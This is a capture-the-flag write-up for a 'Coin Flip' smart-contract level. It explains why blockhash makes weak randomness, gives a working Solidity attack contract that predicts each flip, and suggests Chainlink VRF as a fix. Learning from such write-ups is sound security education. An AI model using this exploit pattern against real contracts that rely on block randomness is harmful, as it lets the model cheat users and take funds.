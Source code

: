 ```yaml
---
title: Level 3 - Coin Flip
slug: level-3
published: 05-15-2023
lastEdited:
---
```


## Objectives

1. Guess correctly 10 coin flips in a row.

## Vulnerabilities

### Block data is a bad source of randomness.

Relying on `block.timestamp`, now or `blockhash` is a bad source of randomness that can be exploited.
In here, the way to determine the correct answer of the flip can be used by an attacker to "guess"
the correct result before calling the `flip` function.

## Exploit

1. Write and deploy an attack contract similar to the following one:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "CoinFlip.sol";

contract CoinFlipHack {
    CoinFlip target;

    event Log(uint wins, string message);

    constructor(address _targetAddress) {
        target = CoinFlip(_targetAddress);
    }

    function getWins() public view returns(uint) {
        return target.consecutiveWins();
    }

    function cheatFlip() public{
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;
        target.flip(guess);
    }
}
```

2. Call the `cheatFlip` function 10 times in a row to win the game.

## Suggested mitigation

1. Use an oracle link Chainlink for a safer source of randomness

## Further reading

- SWC-120 - Weak source of randomness Chain Attributes <ExternalLink href={"https://swcregistry.io/docs/SWC-120"} />

- Get a random number by Chainlink <ExternalLink href="https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number" />
